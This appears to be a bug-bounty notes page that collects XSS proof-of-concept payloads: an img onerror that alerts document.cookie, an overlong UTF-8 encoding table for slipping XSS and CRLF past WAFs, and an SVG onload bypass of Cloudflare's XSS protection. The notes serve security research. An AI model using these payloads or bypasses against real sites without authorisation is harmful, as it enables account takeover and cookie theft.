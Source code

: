 ## [xss](https://medium.com/@a13h1/from-boredom-to-bounty-the-story-of-a-surprise-xss-get-reward-500-e32dfb879bfd)
#xss 
### Step
1. xsshunter
2. id处 `h"<img src=x onerror=alert(document.cookie)>`
3. 500💵

## Bug Bounty Tips
#tips #bypass #xss #crlf
### Step
Overlong UTF-8 encoding Attack

2-byte / 3-byte ⇒ original
```
C0%8A / %E0%80%8A ⇒ %0A
%C0%8D / %E0%80%8D ⇒ %0D
%C0%BE / %E0%80%BE ⇒ %3E (>)
%C0%BC / %E0%80%BC ⇒ %3C (<)
%C0%A2 / %E0%80%A2 ⇒ %22 (")
%C0%A7 / %E0%80%A7 ⇒ %27 (')
```
For XSS, CRLF, WAF bypass
![bypass](../media/bypass-20230911.jpg)
https://jsfiddle.net/bw1Lhxnt


## Cloudflare XSS protection bypass
#bypass #xss #Cloudflare
### Step
```
"&gt;&lt;Svg Only=1 OnLoad=confirm(atob("Q2xvdWRmbGFyZSBYU1MgQG1fa2VsZXBjZQ=="))&gt;
```
